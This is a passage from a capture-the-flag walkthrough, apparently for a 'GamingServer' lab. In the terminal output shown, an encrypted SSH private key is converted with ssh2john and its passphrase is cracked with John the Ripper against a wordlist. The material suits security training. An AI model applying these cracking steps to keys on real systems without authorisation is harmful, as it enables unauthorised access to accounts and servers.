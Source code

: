 <img src="images/secretKey.png">


## SSH Key


It requires a password.
```
┌──(kali㉿kali)-[~/Desktop/GamingServer]
└─$ ssh-add gaming_id.rsa 
Enter passphrase for gaming_id.rsa: 
```


```
┌──(kali㉿kali)-[~/Desktop/GamingServer]
└─$ python3 ssh2john.py gaming_id.rsa > ssh_key_john
                                                                                 
┌──(kali㉿kali)-[~/Desktop/GamingServer]
└─$ john ssh_key_john -w dict.lst 
Created directory: /home/kali/.john
Warning: only loading hashes of type "SSH", but also saw type "tripcode"
Use the "--format=tripcode" option to force loading hashes of that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with wordlist:/usr/share/john/password.lst
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (gaming_id.rsa)     
1g 0:00:00:00 DONE (2023-10-31 19:38) 20.00g/s 640.0p/s 640.0c/s 640.0C/s summer..maggie
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                              
```

## ssh
